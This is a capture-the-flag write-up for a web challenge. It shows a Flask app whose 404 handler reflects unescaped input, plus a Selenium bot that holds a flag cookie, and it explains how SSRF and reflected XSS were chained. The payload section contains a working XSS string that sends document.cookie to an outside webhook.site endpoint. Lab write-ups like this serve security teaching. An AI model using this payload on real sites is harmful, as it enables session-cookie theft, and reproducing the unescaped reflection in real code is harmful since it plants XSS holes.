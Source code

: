 # Bug Report
## Description
They say humans shall not take control to any of their resources. Can you prove them wrong without letting them know.

## Files
Provided docker environment.

## Code
This is a Flask webapp, with the relevant source code files.

### `app.py`
```python
from flask import Flask, request, render_template
from urllib.parse import unquote
from bot import visit_report

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/api/submit", methods=["POST"])
def submit():
    try:
        url = request.json.get("url")
        
        assert(url.startswith('http://') or url.startswith('https://'))
        visit_report(url)

        return {"success": 1, "message": "Thank you for your valuable submition!"}
    except:
        return {"failure": 1, "message": "Something went wrong."}


@app.errorhandler(404)
def page_not_found(error): 
    return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404

app.run(host="0.0.0.0", port=1337)
 ```

 ### `bot.py`
 ```python
 from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.support.ui import WebDriverWait

def visit_report(url):

    options = Options()
    options.add_argument('headless')
    options.add_argument('no-sandbox')
    options.add_argument('disable-dev-shm-usage')
    options.add_argument('disable-infobars')
    options.add_argument('disable-background-networking')
    options.add_argument('disable-default-apps')
    options.add_argument('disable-extensions')
    options.add_argument('disable-gpu')
    options.add_argument('disable-sync')
    options.add_argument('disable-translate')
    options.add_argument('hide-scrollbars')
    options.add_argument('metrics-recording-only')
    options.add_argument('mute-audio')
    options.add_argument('no-first-run')
    options.add_argument('dns-prefetch-disable')
    options.add_argument('safebrowsing-disable-auto-update')
    options.add_argument('media-cache-size=1')
    options.add_argument('disk-cache-size=1')
    options.add_argument('user-agent=BugHTB/1.0')
    browser = webdriver.Chrome('chromedriver', options=options, service_args=['--verbose', '--log-path=/tmp/chromedriver.log'])

    browser.get('http://127.0.0.1:1337/')

    browser.add_cookie({
        'name': 'flag',
        'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
    })

    try:
        browser.get(url)
        WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
    except:
        pass
    finally:
        browser.quit()
```

## Methodology
### SSRF
With `/api/submit` endpoint, we can make the app do an `HTTP` request. We can see that `bot.py` uses a headless chrome browser to first call `http://127.0.0.1:1337/` and add the flag to the cookie, but only for that domain. After that, our request is sent. We can create a custom endpoint using  `https://webhook.site` and request this endpoint from the app.

![burp](./burp.PNG)

And watch the webhook.

![hook+](./hook1.PNG)

We get a hit.

### XSS
We can see in `app.py` that in the `404` handler, there is an `XSS`. Whatever we put in `url` will get reflected in browser. We are going to use this later.

![xss](./xss.PNG)

## Exploit
First idea would be to send a request to a remote endpoint, using `https://webhook.site` and grab the `document.cookie`, but that doesn't work because the cookie is only stored for the domain `127.0.0.1`. Since we have the `XSS`, we can send a request for `127.0.0.1` and use the `XSS` (within the domain of `127.0.0.1`) to grab the cookie and send it to our remote endpoint. Effectively, we are using the `SSRF` to make the server do the request to itself.

## Payload
```
http://127.0.0.1:1337/<script>document.write("<img src=x onerror=this.src='https://webhook.site/f769c238-a3f1-412e-90ed-f31a2031bbd5/?asdf='+document.cookie>")</script>
```

Here, we are injecting an image tag to the `DOM` and using the `src` error to send the cookie as a `GET` parameter with our remote endpoint (a simple fetch would also do the job :D).

We send this crafted string to the report form on the website and wait for the hit on our remote endpoint.

## Loot

![hookľ](./hook2.PNG)

## Flag
**CHTB{th1s_1s_my_bug_r3p0rt}**